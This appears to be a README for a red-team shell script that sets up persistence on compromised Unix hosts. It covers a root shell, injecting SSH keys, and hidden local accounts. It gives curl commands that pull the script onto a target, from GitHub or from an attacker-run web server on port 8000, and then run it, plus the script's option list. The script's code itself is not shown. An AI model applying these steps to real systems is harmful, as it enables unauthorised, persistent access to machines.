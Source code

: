 # Persistence Phase

Definition Persistence...

With this script it is possible to apply some persistence techniques to get a foothold on a system.

## Features

- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
```sh
# Local network
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```sh
sh persistence.sh -h

Usage: persistence.sh [options]

Options:
-h                Show this help message
-e <username>     Elevate privileges of the given user
                  Root needed!
-r                Create a root shell
                  Root needed!
-s <ssh pub key>  Trying to add ssh public key to authorized_keys of current user
                  Put the contents of your public key in quotes like: -s "ssh-rsa AAAAB3NcaDkL......"
-u <username>     Add a local account/user
                  Root needed!
-p <password>     Set this password to new user
                  Only useful in combination with -u parameter
                  Root needed!
-w                Serves an local web server for transferring files

Output:
-q                Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 